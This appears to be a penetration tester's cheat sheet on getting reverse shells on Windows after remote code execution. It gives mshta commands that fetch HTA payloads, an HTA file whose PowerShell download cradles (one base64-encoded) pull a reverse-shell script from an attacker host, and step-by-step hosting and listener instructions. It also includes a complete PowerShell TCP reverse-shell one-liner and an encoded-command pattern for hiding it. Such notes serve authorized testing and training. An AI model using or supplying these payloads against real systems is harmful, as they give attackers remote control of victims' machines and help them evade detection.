 # Getting shells from RCE on Windows

These are just some of the ways

* Sources:
    * [hacktricks.xyz](https://book.hacktricks.xyz/shells/shells/windows)
    * [Arno0x](https://gist.github.com/Arno0x/91388c94313b70a9819088ddf760683f)
    
    
## mshta
* Two types of files to download and execute
    * .hta
    * .sct

* Two types of ways (that I know of) to retrieve
    * http
        * `#!batch mshta http://webserver/payload.hta`
    * smb
        * `#!batch mshta \\webdavserver\folder\payload.hta`

* Script: [Arno0x](https://gist.github.com/Arno0x/91388c94313b70a9819088ddf760683f)
    ```html
    <html>
    <head>
    <HTA:APPLICATION ID="HelloExample">
    <script language="jscript">
            var c = "cmd.exe /c calc.exe"; 
            new ActiveXObject('WScript.Shell').Run(c);
    </script>
    </head>
    <body>
    <script>self.close();</script>
    </body>
    </html>
    ```

* Sample usage to get powershell shell
    1. On your Kali, host (i.e. `#!bash python3 -m http.server`) the two files
        * an hta file, i.e. from: [Arno0x](https://gist.github.com/Arno0x/91388c94313b70a9819088ddf760683f)
            ```html
            <html>
            <head>
            <HTA:APPLICATION ID="HelloExample">
            <script language="jscript">
                    var a = 'powershell -Exec Bypass IEX (New-Object System.Net.WebClient).DownloadString("""http://<YOUR_KALI_IP_OR_FILEHOSTING_MACHINE>:8000/mini-reverse.ps1""")'
                    var b = 'powershell -Exec Bypass -c "IEX(New-Object System.Net.WebClient).DownloadString("""http://<YOUR_KALI_IP_OR_FILEHOSTING_MACHINE>:8000/mini-reverse.ps1""")"'
                    var c = 'powershell -Exec Bypass -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKABoAHQAdABwADoALwAvADwAWQBPAFUAUgBfAEsAQQBMAEkAXwBJAFAAXwBPAFIAXwBGAEkATABFAEgATwBTAFQASQBOAEcAXwBNAEEAQwBIAEkATgBFAD4AOgA4ADAAMAAwAC8AbQBpAG4AaQAtAHIAZQB2AGUAcgBzAGUALgBwAHMAMQApAA=='
                    new ActiveXObject('WScript.Shell').Run(a);
            </script>
            <!-- -------READ------- -->
            <!--var c is base64 encoded with the value of "IEX(New-Object System.Net.WebClient).DownloadString('http://<YOUR_KALI_IP_OR_FILEHOSTING_MACHINE>:8000/mini-reverse.ps1')" -->
            <!-- """ does not work in encoding, use proper syntax -->
            <!-- choose between var a,b or c to replace 'x' in ...').Run(x) above
            </head>
            <body>
            <script>self.close();</script>
            </body>
            </html>
            ```
        * [mini-reverse.ps1](https://gist.github.com/staaldraad/204928a6004e89553a8d3db0ce527fd5) from @staaldraad
            * Modify to change IP Address and port of reverse shell listener
    1. On your Kali, Run your reverse shell listener (`msf exploit/multi/hanlder` or `#!bash nc`)
    1. On the target machine, execute:
        ```batch
        mshta http://<YOUR_KALI_IP_OR_FILEHOSTING_MACHINE>:8000/mini-reverse.hta
        ```
    
        
## Powershell
* Please see script with examples above (mshta - var a,b and c)
* To be added here and more
* Working shells I have tried:
    * [Mini-Reverse](https://gist.github.com/staaldraad/204928a6004e89553a8d3db0ce527fd5) by @staaldraad

### One-liners
* Famous powershell one-liner
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<LHOST>',8080);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
* You can [base64 encode] the block above and execute with this:
    * [Base64 encode in Linux](../Useful_Commands/Linux.html#base64-encode)
    * [Base64 encode in Windows](../Useful_Commands/Windows.html#base64-encode-powershell-commands)
```powershell
powershell -EncodedCommand <Base64_payload>
```

### Fully interactive powershell
* Get fully interactive shell with [ConPtyShell](https://github.com/antonioCoco/ConPtyShell)
